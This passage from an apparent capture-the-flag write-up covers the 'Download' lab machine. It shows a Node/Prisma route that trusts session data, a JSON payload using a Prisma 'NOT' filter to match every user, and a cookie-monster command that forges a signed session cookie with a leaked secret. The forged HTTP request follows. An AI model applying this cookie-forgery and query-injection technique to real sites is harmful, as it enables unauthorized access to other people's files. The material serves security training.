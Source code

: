 So now we know what this object looks like we can just forge any cookie we want. now looking at the source code of home we could see that this page is not handling the cookies in a secure fashion. in the code below we can see it just takes the value of the cookie as is without sanitization to request the data.

```js 
router.get("/", auth_1.default, async (req, res) => {
    const files = await client.file.findMany({
        where: { author: req.session.user },
        select: {
            id: true,
            uploadedAt: true,
            size: true,
            name: true,
            private: true,
            authorId: true,
            author: {
                select: {
                    username: true,
                },
            },
        },
    });
```
We save the following json object into a file called **jsoncookie.json** and we use the secret from the source code as our K value. Using those parameters we were able to forge a valid cookie that returned all files.

```json
{"flashes":{"info":[],"error":[],"success":[]},"user":{ "NOT": { "id":99}}}
```
Command
```
npx @digital-interruption/cookie-monster -e -k 8929874489719802418902487651347865819634518936754 -n download_session -f jsoncookie.json -o res.txt
```

![Forged Cookie](/assets/img/Download/Download_01.png)

So with this new cookie we could gain access to all the files sending the following request

```
GET /home/ HTTP/1.1
Host: download.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://download.htb/auth/login
Connection: close
Cookie: download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6eyJOT1QiOnsiaWQiOjk5fX19; download_session.sig=_zDjMqEDf7gesrPTCKODy6if9t8
Upgrade-Insecure-Requests: 1
If-None-Match: W/"1108-cKtmi2vugIVex47sdFjCA2zagqs"
```

